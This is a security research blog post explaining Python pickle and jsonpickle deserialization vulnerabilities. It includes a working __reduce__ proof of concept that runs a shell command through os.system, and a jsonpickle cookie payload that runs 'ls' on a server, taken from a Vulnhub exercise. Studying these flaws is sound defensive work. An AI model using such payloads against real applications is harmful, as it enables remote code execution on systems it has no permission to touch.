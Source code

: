 ```yaml
---
layout: single
title:  "Python Serialization Vulnerabilities"
path: /posts/
date:   2020-05-22
tags: Deserialization python pickle
categories: research
classes: wide
author: komodino
excerpt: "This is a post containing my findings researching python deserialization attack vectors."
header:
  teaser: /assets/images/unserialize/picklerick.jpg
  teaser_home_page: true

---
```


Insecure Deserialization currently occupies place No.8 on OWASP's Top 10 Vulnerablitiy list for 2017.

To learn more about what deserialization attacks are, check out my write up on the Temple of Doom Vulnhub Box [here](https://pwnokefalos.eu/posts/)

## Introduction
---

In python the default and most popular module for serialization/deserialization is [Pickle](https://docs.python.org/3.8/library/pickle.html).

>The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy. Pickling (and unpickling) is alternatively known as “serialization”, “marshalling,” 1 or “flattening”; however, to avoid confusion, the terms used here are “pickling” and “unpickling”.

Reading the docs, pickle immediately warns us that we shouldn't really trust user input.

![](/assets/images/unserialize/warnpickle.png)

Let's do some test and play around with pickle. First create an object, then serialize it and save it in the system.

```python
class User:
        user_stats = {}
        def __init__(self,name,age):
                self.user_stats["name"] = name
                self.user_stats["age"] = age

john = User("John",21)

# Write to file - Serialize
with open("user.dat","wb") as f:
        pickle.dump(john,f)

# Load the object from file - Unserialize
with open("user.dat","rb") as f:
        user = pickle.load(f)

print(user.user_stats)
```

This will print `{'name': 'John', 'age': 21}`  

Here we succesfully **serialized** and then **unserialized** the object `john`.

## Vulnerability Analysis

What can possibly go wrong with this?
Reading a bit further in the docs we stumble upon **__reduce__**

>The __reduce__() method takes no argument and shall return either a string or preferably a tuple.
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:
1. A callable object that will be called to create the initial version of the object.
2. A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument.<br>
  ...

A healthy use for **__reduce__** would be for providing hints/directives to pickle on how to properly deserialize the object, in case the default automatical way is not enough.

But reading the above citation we conclude that any object that is going to be unserialized and is an instance of a class that has a **__reduce__** method implementation, given the right definintion of **__reduce__**  can immediately execute a callable object during the unserialization phase.

Let's break this down a bit and create another example.
```python
#!/usr/bin/env python3
import pickle
from os import system

class User:

        def __reduce__(self):
                command = "ping -c 3 google.com"  # The command to execute
                
                # As stated in the above docs if __reduce__ returns a tuple the first 
                # tuple element must be a callable object, in this case system. The 
                # second tuple element must be a tuple itself containing the arguments 
                # to the callable object. Upon deserialization this basically corresponds
                # to system(command)
                                                  
                return (system, (command, ))

# Create test object

john = User()

# Write to file - Serialize

with open("user.dat","wb") as f:
        pickle.dump(john,f)

# Load the object from file - Unserialize

with open("user.dat","rb") as f:
        user = pickle.load(f)
```

Running the above script we see

![](/assets/images/unserialize/google_ping.png)

We have command execution!

## Another variation
---

The idea for researching this came to me while solving the **Symfonos4 Vulnhub Box** where you are presented with a website that will deserialize the user cookie.

The cookie looked something like this
`{"py/object": "app.User", "username": "Poseidon"}`

This doesn't really look like standard **pickle** syntax so doing a little research it turns out that it is encoded with **jsonpickle**
>jsonpickle is a Python library for serialization and deserialization of complex Python objects to and from JSON. The standard Python libraries for encoding Python into JSON, such as the stdlib’s json, simplejson, and demjson, can only handle Python primitives that have a direct JSON equivalent (e.g. dicts, lists, strings, ints, etc.). jsonpickle builds on top of these libraries and allows more complex data structures to be serialized to JSON. jsonpickle is highly configurable and extendable–allowing the user to choose the JSON backend and add additional backends.

What will happen is the app will take the **jsonpickled** cookie and deserialize it. In this case convert it from JSON to a normal python object. This library also has a **reduce** method and we can construct a payload with
`{"py/object": "__main__.Shell", "py/reduce": [{"py/function": "os.system"}, ["ls"], 0, 0, 0]}`

This will execute `ls` on the remote server.

### Conclusion
---

**Never trust user input.**

### Useful links and References
---

[BlackHat 2011 - Sour Pickles, A serialised exploitation guide in one part](https://www.youtube.com/watch?v=HsZWFMKsM08)

[jsonpickle exploitation](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)


